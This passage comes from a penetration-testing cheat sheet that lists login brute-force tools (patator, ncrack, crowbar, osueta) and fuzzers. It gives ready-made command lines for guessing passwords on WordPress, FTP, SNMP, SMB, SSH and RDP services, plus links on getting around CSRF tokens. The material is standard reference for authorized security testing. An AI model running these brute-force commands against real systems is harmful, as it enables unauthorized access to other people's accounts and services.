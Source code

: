     * [***patator***](https://github.com/lanjelot/patator) - login bruteforcer <small>(ftp_login, ssh_login, telnet_login, smtp_login, smtp_vrfy, smtp_rcpt, finger_lookup, http_fuzz, ajp_fuzz, pop_login, pop_passd, imap_login, ldap_login, smb_login, smb_lookupsid, rlogin_login, vmauthd_login, mssql_login, oracle_login, mysql_login, mysql_query, rdp_login, pgsql_login, vnc_login, dns_forward, dns_reverse, snmp_login, ike_enum, unzip_pass, keystore_pass, sqlcipher_pass, umbraco_crack, tcp_fuzz, dummy_test)</small>

        <div class="spoiler"><div class="spoiler-title">
        <i>usage examples</i>
        </div><div class="spoiler-text" markdown="1">
        ***http_fuzz***: `patator http_fuzz url=http://10.0.0.3/wp-login.php method=POST body='login=FILE0&pwd=MyPassword&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwebsite_backend%2Fwp-admin%2F&testcookie=1' before_urls=http://10.0.0.3/wp-login.php 0=/path/to/usernames accept_cookie=1 follow=1 -x ignore:fgrep='Invalid username.'`

        ***http_fuzz***: `patator http_fuzz url=http://10.0.0.3/wp-login.php method=POST body='login=admin&pwd=FILE0&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwebsite_backend%2Fwp-admin%2F&testcookie=1' before_urls=http://10.0.0.3/wp-login.php 0=/path/to/passwords accept_cookie=1 follow=1 -x ignore:fgrep='Wrong username or password' --rate-limit=0 -t 6`

        ***ftp***: `patator ftp_login host=10.0.0.2 user=FILE0 password=FILE1 0=/path/to/usernames 1=/path/to/passwords -x ignore:mesg='Permission denied.' -x ignore:mesg='Login incorrect.' -x ignore,reset,retry:code=500`

        ***snmp_login***: `patator snmp_login host=10.0.0.2 version=3 user=FILE0 0=/path/to/usernames -x ignore:mesg=unknownUserName` - snmp login enumeration
        <br> ***snmp_login***: `patator snmp_login host=10.0.0.2 version=3 user=admin auth_key=FILE0 0=/path/to/passwords -x ignore:mesg=wrongDigest` - snmpv3 password enumeration

        ***smb***: `patator smb_login host=10.0.0.2 user=FILE0 password=FILE1 0=/path/to/usernames 1=/path/to/passwords -x ignore:fgrep=STATUS_LOGON_FAILURE`
        </div>
        </div>

    * [***ncrack***](https://nmap.org/ncrack/) - login bruteforcer <small>(SSH, RDP, FTP, Telnet, HTTP(S), POP3(S), IMAP, SMB, VNC, SIP, Redis, PostgreSQL, MySQL, MSSQL, MongoDB, Cassandra, WinRM, OWA)</small>
        <br> `ncrack -T3 ...` - template
        <br> `ncrack -v -T5 -g cl=10 -u phonexicum -P /path/to/passwords 10.0.0.2 -p 22,ftp:3210,telnet`

    * [***crowbar***](https://github.com/galkan/crowbar) - it is developed to support protocols that are not currently supported by thc-hydra, ... <small>(openvpn, rdp, sshkey, vnckey)</small>
        <br> `crowbar.py -n 10 -b rdp -u username -C /path/to/passwords -s 10.0.0.2/32 -p 3389`
    * [osueta](https://github.com/c0r3dump3d/osueta) - ssh timing attack - user enumeration
        <br> `osueta.py -l 1000 -H 172.16.0.12 -p 22 -L /path/to/usernames -v yes`

    [blog.g0tmi1k.com/dvwa/login](https://blog.g0tmi1k.com/dvwa/login/) - using hydra or patator for online bruteforce with respect to CSRF token
    <br>[g0tmi1k/boot2root-scripts (github)](https://github.com/g0tmi1k/boot2root-scripts) - scripts for brute with respect to CSRF token

    [medusa, hydra, ncrack comparison](http://foofus.net/goons/jmk/medusa/medusa-compare.html)

    Some fuzzers:

    * {:.dummy} [ftp-fuzz, tftp-fuzz, oniofuzz](https://github.com/nullsecuritynet/tools/tree/master/fuzzer)
    * {:.dummy} [XBruteForcer](https://github.com/Moham3dRiahi/XBruteForcer) - WordPress (autodetect username), Joomla, DruPal, OpenCart, Magento

